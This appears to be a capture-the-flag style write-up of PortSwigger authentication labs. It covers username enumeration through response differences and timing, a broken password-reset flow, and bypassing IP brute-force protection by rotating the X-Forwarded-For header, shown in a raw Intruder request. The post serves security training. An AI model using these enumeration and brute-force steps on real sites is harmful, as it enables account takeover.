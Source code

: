 ### Intro

Authentication is the front door to your application - and like any door, if it's weak or poorly secured, attackers will break in. From brute-force attacks and credential stuffing to logic flaws and insecure token handling, authentication vulnerabilities remain one of the most exploited issues in web security. In this post, we'll dive into the most common authentication weaknesses together with Portswigger labs.

### Vulnerabilities in password-based login labs (Apprentice)

#### Lab: Username enumeration via different responses

- Find a correct username and after that - a correct password (intruder will be enough for that)

#### Lab: Password reset broken logic

- Click `Forgot password`, provide wiener's email, follow the link from the email, send this request to `Repeater` and update username ...

### Vulnerabilities in password-based login (Practitioner)

#### Lab: Username enumeration via subtly different responses

- Start the same but in the `Settings` -> `Auto-pause attack` add `Invalid username or password.` (to stop if this will not appearing)
- Once it will stopped - pay attention that in the response there is slightly different answer - no dot presented
- Run regular sniper attack on password like in the previous lab

#### Lab: Username enumeration via response timing

- Hint - To add to the challenge, the lab also implements a form of IP-based brute-force protection. However, this can be easily bypassed by manipulating HTTP request headers (`X-Forwarded-For`)

- Send login request to the intruder, set reeeeealy long password and let's brute force using Pitchfork attack wrhere 1 param - `X-Forwarded-For` and second one - username:

```html
POST /login HTTP/2
Host: 0a260086036b54928379879b001f00fd.web-security-academy.net
Cookie: session=wwGcnB1hCOqq4VoQYg87wn8Bsp2pIqxQ
Content-Length: 27
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a260086036b54928379879b001f00fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a260086036b54928379879b001f00fd.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-For: 1.2.3.§1§

```